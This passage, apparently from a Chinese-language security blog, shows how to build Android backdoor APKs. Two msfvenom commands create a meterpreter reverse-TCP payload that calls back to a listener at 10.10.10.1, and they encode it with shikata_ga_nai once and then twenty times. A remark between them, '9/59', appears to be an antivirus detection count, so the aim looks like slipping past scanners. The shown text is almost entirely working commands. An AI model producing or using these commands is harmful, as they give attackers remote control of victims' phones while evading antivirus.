 虽然这个是 x86 的，但是也能兼容在 APK 中，编码一次

```plain
msfvenom --platform Android -p android/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=10008 -e x86/shikata_ga_nai R > black_1.apk
```

[![](assets/1701606948-7f776da58a3adee3b52320ebac418628.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231009102118-87dbbdc0-664a-1.png)  
  
现在是 9/59  
  
[![](assets/1701606948-281ebb43a9bd72b6543a0b998fdc780c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231009102128-8d7e55b2-664a-1.png)  
  
编码 20 次

```plain
msfvenom --platform Android -p android/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=10008 -e x86/shikata_ga_nai -i 20 R > black_2.apk
```
